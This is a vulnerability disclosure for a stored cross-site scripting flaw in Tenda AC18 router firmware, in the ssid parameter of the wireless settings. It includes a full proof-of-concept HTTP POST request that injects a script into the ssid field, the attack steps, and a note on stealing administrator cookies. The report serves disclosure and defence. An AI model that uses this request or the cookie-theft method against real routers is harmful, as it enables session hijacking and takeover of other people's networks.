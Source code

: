 # Information

**Vendor of the products:**    Tenda

**Vendor's website:**    https://www.tenda.com.cn

**Reported by:**    YanKang、ChenZhijin、WeiKanghong

**Affected products:**	Tenda AC18 router

**Affected firmware version:**	V15.03.05.05_multi

**Firmware download address:** 	https://www.tenda.com.cn/material/show/2610

# Overview

A stored cross-site scripting (XSS) vulnerability was discovered in `Tenda AC18 routers（V15.03.05.05_multi）`. The vulnerability exists in the `ssid` parameter of the `wireless settings`. Remote attackers can inject malicious payloads that execute when any user visits the router's homepage, leading to session hijacking and potential complete compromise of the router.

# Exp

The exploitation process begins when an attacker, after obtaining valid credentials and authenticating via `/login.html`, submits a crafted POST request to the `/goform/WifiBasicSet` endpoint to inject a malicious JavaScript payload into the `ssid` parameter. This payload is then permanently stored in the router's  configuration without proper sanitization and persists across reboots.  Subsequently, when any authenticated user, including administrators,  visits the main dashboard at `/main.html`, the  stored script automatically executes within their browser session,  enabling session hijacking, authentication token theft, and potential  full administrative control of the router.

```
POST /goform/WifiBasicSet HTTP/1.1
Host: 192.168.2.1
Content-Length: 207
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Origin: http://192.168.2.1
Referer: http://192.168.2.1/wireless_ssid.html
Accept-Encoding: gzip, deflate, br
Cookie: password=25d55ad283aa400af464c76d713c07adrmn1qw; bLanguage=cn
Connection: keep-alive

wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FD3AA0<script>alert('XSS_Test')</script>&ssid_5g=Tenda_FD3AA0_5G&hideSsid=0&hideSsid_5g=0&wrlPwd=12345678&wrlPwd_5g=12345678
```

# Attack Demo

The complete attack flow involves the following steps:

1.**Initial Access:** An attacker first obtains valid credentials and authenticates to the router's web interface via the `/login.html` page.

![image-20251015205257561](images/image-20251015205257561.png)

2.**Payload Injection:** The attacker submits a specially crafted POST request to the `/goform/WifiBasicSet` endpoint, injecting a malicious JavaScript payload into the `ssid` parameter.

![image-20251015205422198](images/image-20251015205422198.png)

3.**Trigger Condition:** The vulnerability is triggered when any authenticated user (including administrators) simply visits the main dashboard page at `/main.html`.

![image-20251015205218013](images/image-20251015205218013.png)



# Supplement

The attacker can use the `storage type XSS attack` to obtain the `cookie` of the user who just logged in through `/login.html`. Then, he can forge cookies to perform operations that can only be performed by administrators, causing serious consequences.
